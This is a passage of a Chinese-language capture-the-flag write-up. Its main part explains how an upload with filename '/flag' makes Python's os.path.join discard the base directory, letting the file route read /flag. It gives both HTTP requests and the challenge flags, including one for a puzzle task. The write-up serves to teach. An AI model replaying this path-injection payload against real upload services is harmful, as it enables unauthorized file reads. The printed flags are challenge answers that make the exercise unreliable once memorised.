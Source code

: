 可以发现文件上传之后会生成一个 id，然后访问的时候只通过这个 id 进行文件读取。上传时文件名中不允许有 . 字符，而其他的字符通通没有处理，因此不能目录穿越读文件。再看访问的路由，使用了 `os.path.join` 来将文件名与路径拼接从而进行读取。在这个方法的文档中有如下一句话。

> If a component is an absolute path, all previous components are thrown away and joining continues from the absolute path component.

假设此时的 `res[0]` 变成了绝对路径，也就是 `/flag`，那么此前的所有路径就会被抛弃，进而读取到根目录下的 flag。因此构造出如下两个请求来获取 flag。

```http
POST /upload HTTP/1.1
Host: 193.57.159.27:35294
Content-Length: 282
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary51X6ZmnbrL0hXAYM
Connection: close

------WebKitFormBoundary51X6ZmnbrL0hXAYM
Content-Disposition: form-data; name="file"; filename="/flag"
Content-Type: image/png


------WebKitFormBoundary51X6ZmnbrL0hXAYM
Content-Disposition: form-data; name="submit"

Upload File
------WebKitFormBoundary51X6ZmnbrL0hXAYM--

```

```http
GET /file/d129a262e4724c549cda37a51755e1bf HTTP/1.1
Host: 193.57.159.27:35294
Connection: close


```

在使用第一个请求获得的链接请求访问文件后可获得 flag。

```flag
rarctf{4lw4y5_r34d_th3_d0c5_pr0p3rly!-71ed16}
```

### Misc

#### Farewell

>"You might be alone at the moment... 
>But someday... You'll definitely find nakama! 
>No one is born in this world to be alone!"
>― Eiichiro Oda

拼图小游戏，在请求中可以找到原图，可以直接读出 flag。

![](https://api.lemonprefect.cn/image/hdslb/archive/824f1fae-1c61-4acb-8561-3e2bcd829477/1628504234060552/f5027eccc0e5926c867ad5cce52e6d632ebc7b34.jpg)

```flag
BSNoida{Th4nk5_f0rpl4y1ng_See_y0u_n3xty34rBy3}
```
